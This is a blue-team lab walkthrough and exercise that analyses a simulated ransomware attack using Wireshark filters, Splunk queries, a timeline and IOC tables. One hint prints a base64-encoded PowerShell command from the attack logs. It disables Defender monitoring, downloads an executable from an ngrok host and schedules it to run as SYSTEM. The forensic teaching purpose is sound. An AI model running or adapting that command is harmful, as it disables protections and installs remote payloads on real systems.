# Mr. Robot Exercise: Data Destruction Part 2

## Introduction

In the aftermath of the data destruction (ransomware) attack against the ECorp network, we will be in the Blue Team role and analyze the ransomware attack. While much of the data surrounding the attack residing in the ECorp network was destroyed, AllSafe retained network and log data from the wrk-colby system.    

Additionally, there is an exercise at the bottom of this walkthrough in which you will analyze log data of a ransomware attack in addition to what we did in class.

## Lab Setup

The attack was re-run using the Rexorsarus ransomware. Download the pcap and Splunk logs from the links below. These are safe to download; however, do not extract the Rexorsarus file from the pcap. 

[RexorsarusSysmon1hr.csv](Screenshots/08-DataDestruction2/RexorsarusSysmon1hr.csv)

[Rexorsarus.pcapng](Screenshots/08-DataDestruction2/Rexorsarus.pcapng)

## Review

In part one of the data destruction portion of the Mr. Robot exercise, we reconfigured the lab environment to ensure there was no way that ransomware could escape our virtual lab environment. We did this by creating a new host-only environment and ensured there were no other enabled adaptors on our VMs. For more detail refer to the part one walkthrough.



We deployed the ransomware using the Mythic C2 server, the wrk-colby system, and the tcolby account. The tcolby account was logged in as domain admin. After initially moving the ransomware to the wrk-colby system, we used SMB to copy the ransomware to every other system on the network.   

## PCAP analysis

Open the pcap file in Wireshark.

At first glance, a pattern of activity is is evident.  Every 10-12 seconds five packets are exchanged between IP 10.6.6.5 (wrk-colby) and 10.6.6.6 (Kali Linux). This is the C2 beacon (payload) calling back to the Mythic C2 server.



As seen below, even though the C2 communications are over port 80, the data is encrypted using AES encryption.



So, we have confirmed the C2 with IP 10.6.6.6. 

Scrolling down we can discover an SMB connection from wrk-colby to wrk-price and later a session that includes transferring “Rexorsarus-RE1.exe” to wrk-price.



Further analysis of the pcap we can see the same pattern and the same file being moved via SMB to the DC (10.6.6.5).



This appears to be the deployment of the ransomware. 

**RPC Traffic**

We can search for RPC Traffic using the filter below focusing on port 135. Port 135 is used for Microsoft RPC (Remote Procedure Call), a key Windows protocol for communication between processes on different computers, often utilized for tasks like executing commands or interacting with services remotely. The agent used to interact with other systems on the network to carry out post-exploitation tasks. 

```go
ip.addr == 10.6.6.5 and tcp.port == 135
```



As seen above we see wrk-colby (10.6.6.5) using RPC with the Domain Controller (10.6.6.3)

If we had not already discovered the SMB traffic by manually reviewing the packet capture in WireShark, we could search for SMB using the filter below:

```go
ip.addr == 10.6.6.5 and tcp.port == 445
```

The screenshots below show Rexorsarus being copied to both wrk-price and Ecorp-DC.

 





## Log Analysis via Splunk

### Import the .csv file into Splunk.

From the Settings dropdown, choose Add Data.


Select “Upload”



Select the .csv file downloaded earlier.



Select Next, Next, Next, Submit, and Start Searching.



Filter the date picker to 1 December.



### Analysis

Start by examining the network connections during the time period of interest.

```go
sourcetype="csv" EventCode=3
| table SourceIp DestinationIp Image
```

We can see an interesting connection to 10.6.6.6 being executed by “Fsociety2.exe”.



This is the C2 agent and it is establishing a connection with the Mythic C2 server.

Search for process creation using the SPL below:

```go
sourcetype="csv" EventCode=1
| table _time Image
```

As seen below there are two items of interest, Rexorsarus and fsociety2.



We can search for Registry entry to the BAM (Background Activity Monitor)  with the SPL below.

```go
sourcetype="csv" EventCode=13
| table _time TargetObject
```



The results seen above confirms that Rexorsarus-RE1.exe was executed on wrk-tcolby at 21:00:04.609.

## Timeline Analysis

| **Time** | **Event** | **Source** |
| --- | --- | --- |
| 20:51:56 | C2 agent (fsociety2.exe) connection | sourcetype="csv" EventCode=3
| table SourceIp DestinationIp Image |
| 20:53:27 | Rexorsarus copied to wrk-price via SMB | ip.addr == 10.6.6.5 and tcp.port == 445 |
| 20:54:20 | Rexorsarus copied to Ecorp-DC via SMB | Packet Capture |
| 21:00:04 | Rexorsarus executed on wrk-colby | sourcetype="csv" EventCode=1
| table _time Image |

## Indicators of Compromise

| **IOC Type** | **Value** |
| --- | --- |
| IPv4 | 10.6.6.6 |
| File Name | fsociety2.exe |
| File Hash | 8FD504232D3051CA0C228CD90515846E5144F7F0E9F946AC04218B9BDE9D580B |
| File Name | Rexorsarus-RE1.exe |
| File Hash | 36D9FDA0781A701DC753BEC60516DDEB6BC9F0FE6633CE7775A7E650667D9A97 |

# Ransomware Analysis Exercise

## **Scenario**:

You are a SOC Analyst for AllSafe MSSP and ECorp is one of your clients. ECorp sent an email asking you to investigate the events that occurred on the wrk-tcolby machine on November 27, 2024. ECorp noted that the machine is operational, but some files have a weird file extension. The client is worried that there was a ransomware attempt on the wrk-tcolby device.

## **Lab Setup:**

Download the log data from the link below.  

[Ransomware_Exercise.csv](Screenshots/08-DataDestruction2/Ransomware_Exercise.csv.crdownload)

Import the logs.






When you get to Input Settings create a new index.



Name the index “mrrobot”



Select Save and and select Next until the logs are imported.  Then select start searching.



Keep the timepicker to “All time”.

To test that the data was properly imported, use the SPL below.

```go
index=mrrobot *
```



## Questions

1. What is the name of the suspicious .exe file that was downloaded?
2. What URL was the address the suspicious file was downloaded from? 
3. What Windows executable was used to download the suspicious file?
4. What command was executed to configure the suspicious file to run with elevated privileges?
5. What permissions will the suspicious binary run as? What was the command to run the binary with elevated privileges? 
6. The suspicious binary connected to a remote server. What address did it connect to?
7. A PowerShell script was downloaded to the same location as the suspicious binary. What was the name of the file?
8. The malicious script was flagged as malicious. What do you think was the actual name of the malicious script?
9. A ransomware note was saved to disk, which can serve as an IOC. What is the full path to which the ransom note was saved?
10. The script saved an image file to disk to replace the user’s desktop wallpaper, which can also serve as an IOC. What is the full path of the image?

## Hints (Hints provide SPL, you still may have to do additional analysis)

#1

```go
index=mrrobot EventCode=3
| stats count as callouts by Image, DestinationIp
| table, Image, DestinationIp, callouts
```

#2 Get it from the PowerShell 

```go
index=mrrobot CommandLine=* Image="C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe”
```

The base64 from powershell was

```go
U2V0LU1wUHJlZmVyZW5jZSAtRGlzYWJsZVJlYWx0aW1lTW9uaXRvcmluZyAkdHJ1ZTt3Z2V0IGh0dHA6Ly84ODZlLTE4MS0yMTUtMjE0LTMyLm5ncm9rLmlvL01SX1JPQk9ULmV4ZSAtT3V0RmlsZSBDOlxXaW5kb3dzXFRlbXBcTVJfUk9CT1QuZXhlO1NDSFRBU0tTIC9DcmVhdGUgL1ROICJNUl9ST0JPVC5leGUiIC9UUiAiQzpcV2luZG93c1xUZW1wXENNUl9ST0JPVC5leGUiIC9TQyBPTkVWRU5UIC9FQyBBcHBsaWNhdGlvbiAvTU8gKltTeXN0ZW0vRXZlbnRJRD03NzddIC9SVSAiU1lTVEVNIiAvZjtTQ0hUQVNLUyAvUnVuIC9UTiAiTVJfUk9CT1QuZXhlIg==
```

Use CyberChef to decode it.

#3 Refer to Question #2

#4

```go
index=mrrobot "MR_ROBOT.exe" Image="C:\\Windows\\System32\\schtasks.exe"
| table CommandLine
```

#5 previously mentioned

#6

```go
index=mrrobot "MR_ROBOT.exe" Image="C:\\Windows\\Temp\\MR_ROBOT.exe" TaskCategory="DNS query (rule: DNSQuery)" QueryName="*"
| table QueryName
```

#7

```go
TargetFilename="C:\\Windows\\Temp\\*.ps1"
| table TargetFilename
| dedup TargetFilename
```

#8

```go
TargetFilename="C:\\Windows\\Temp\\script.ps1"
| table TargetFilename Hashes
```

Look up the hash in Virus Total and research the ransomware familily

#9

```go
TargetFilename="*\\BlackSun_README.txt"
| table TargetFilename
```

#10

```go
TargetFilename="*\\blacksun.jpg"
| table TargetFilename
```